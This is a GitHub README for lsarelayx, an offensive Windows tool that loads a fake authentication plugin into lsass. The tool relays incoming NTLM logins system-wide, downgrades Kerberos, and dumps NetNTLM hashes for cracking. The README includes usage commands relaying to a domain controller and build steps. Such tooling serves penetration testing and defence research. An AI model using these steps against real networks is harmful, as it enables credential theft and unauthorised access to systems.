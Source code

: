 # lsarelayx

## Introduction

lsarelayx is system wide NTLM relay tool designed to relay incoming NTLM based authentication to the host it is running on.  lsarelayx will relay **any** incoming authentication request which includes SMB.  Since lsarelayx hooks into existing application authentication flows, the tool will also attempt to service the original authentication request after the relay is complete.  This will prevent the target application/protocol from displaying errors and function as normal for end users authenticating against the lsarelayx host.

### **Features**

* Relays NTLM connections system wide, including SMB, HTTP/HTTPS, LDAP/LDAPS or any other third party application implementing the Windows authentication APIs.
* Where possible, downgrades incoming Kerberos authentication requests to NTLM.  This will cause clients that would traditionally attempt Kerberos authentication to fallback to NTLM.
* Performs an LDAP query for the relayed user to fetch group membership info an create the correct authentication token for the original request.
* Dumps NetNTLM messages for offline cracking.
* Supports a passive mode that does not relay and only dumps captured NetNTLM hashes (no Kerberos downgrade in this mode).

## How it works

lsarelayx comes in three parts.  A fake LSA authentication provider implemented within liblsarelay.dll, a user mode console application as the control interface and a new ntlmrelayx server module called RAW.

### liblsarelayx.dll

liblsarelayx.dll is the LSA authentication provider that gets loaded by lsarelayx.  It's predominant purpose is to hook the NTLM and Negotiate packages to facilitating redirecting authentication requests to lsarelayx over a local named pipe for relaying and dumping NetNTLM hashes.  liblsarelayx is designed to be as simple as possible where all the heavy lifting is performed by lsarelayx

### lsarelayx.exe

lsarelayx.exe is the main console application used to load the custom LSA authentication provider (liblsarelayx.dll), listen for incoming NTLM and Negotiate tokens from the authentication provider and relay to ntlmrelayx's RAW server module.  The tool also performs the LDAP queries used for capturing group information for relayed users and passing back to the LSA authentication provider.

### RAW ntlmrelayx module

impacket's ntlmrelayx has implemented a significant amount of work creating relay attacks and will continue to improve and add further attack in the future.  To take advantage of this in favour of reimplementing attacks directly within lsarelayx, a new ntlmrelayx server module was created called RAW.  Currently there is a [PR open on GitHub](https://github.com/SecureAuthCorp/impacket/pull/1190) that implements the RAW server module.  The RAW server module is protocol agnostic and is designed to accept the raw NTLM messages directly from 3rd party software like lsarelayx.

Until the PR is merged into the mainline impacket repo, you can use [this version](https://github.com/CCob/impacket)

## Usage

### Active Mode

First start the ntmlrelayx RAW server module to listen for RAW NTLM messages passed from lsarelayx.

```
python examples\ntlmrelayx.py -smb2support --no-wcf-server --no-smb-server --no-http-server "-t" smb://dc.victim.lan

Impacket v0.9.24.dev1+20211015.125134.c0ec6102 - Copyright 2021 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

lsarelayx itself requires local administrator permissions to run.  To run in active relay mode, the host address where ntlmrelayx is running the raw server module needs to be specified.  The default port is 6666.  This can be overridden with the `--port` argument, but be sure to have also overridden the port on the ntlmrelayx side too using the `--raw-port` argument.

```
lsarelayx.exe --host 192.168.1.1
[+] Using 192.168.1.1:6666 for relaying NTLM connections
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Passive Mode

You can also run lsarelayx in passive mode by running without any arguments

```
lsarelayx.exe
[=] No host supplied, switching to passive mode
[=] Attempting to load LSA plugin C:\users\Administrator\Desktop\liblsarelayx.dll
```

### Caveats

Once the liblsarelayx DLL has been loaded into lsass, currently you cannot unload it due to limitations of how LSA plugins work.  The client can be closed which will put the DLL into a dormant state until the client starts again but the DLL will be in use until a reboot occurs.

Since the LSA plugin is not actually a genuine plugin, there are plans to implement a reflective loader inside the plugin which can then be stopped and started at will but that’s an exercise for another day.

Development was performed on Windows 10 and Server 2016.  A quick test was performed on Windows Server 2012 R2 which worked, but the calculation of offsets for hooking can fail on 2012 (this can be provided manually using the `lookuppackage-hint=`, get it wrong and Windows will reboot).  No testing has been performed on anything below Windows 10 on the desktop side and nothing tested on Server 2019 at all.

## !!WARNING!!

liblsarelayx.dll will be loaded inside the critical lsass.exe process.  If liblsarelayx.dll has any bugs that lead to crashing lsass.exe, the host **WILL** reboot after 60s.  Whilst best efforts have been made to write bug free code, I can't promise anything.  Don't come crying to me that you took your fortune 500 client down for crashing the busy file server after using lsarelayx.

## Building

### Docker

If you have docker installed, this is the quickest option. It utilises the `ccob/windows_cross` image with all the build dependencies pre-installed.

#### Docker on Windows (Powershell)

```shell
docker run --rm -it -v $env:pwd\:/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; --build . --target install/strip"
```

#### Docker on Linux

```shell
docker run --rm -it -v $(pwd):/root/lsarelayx ccob/windows_cross:latest /bin/bash -c "cd /root/lsarelayx; mkdir build; cd build; cmake -DCMAKE_INSTALL_PREFIX=/root/lsarelayx/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..; cmake --build . --target install/strip"
```

### Linux

On Linux we utilise a CMake toolchain along with the MinGW compiler.  These need to be installed before hand.  For the managed component, please make sure the dotnet command line tool is also installed from .NET core

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -DCMAKE_TOOLCHAIN_FILE=../toolchain/Linux-mingw64.cmake ..
cmake --build . --target install/strip
```

### Windows (Powershell)

Windows will require a full CMake, MinGW and Visual Studio setup before even attempting to build, it's the most painful way to build if you don't have a development environment installed 

```shell
mkdir build
cd build
cmake -DCMAKE_INSTALL_PREFIX=$PWD/dist -DCMAKE_BUILD_TYPE=MinSizeRel -G "MinGW Makefiles" ..
cmake --build . --target install/strip
```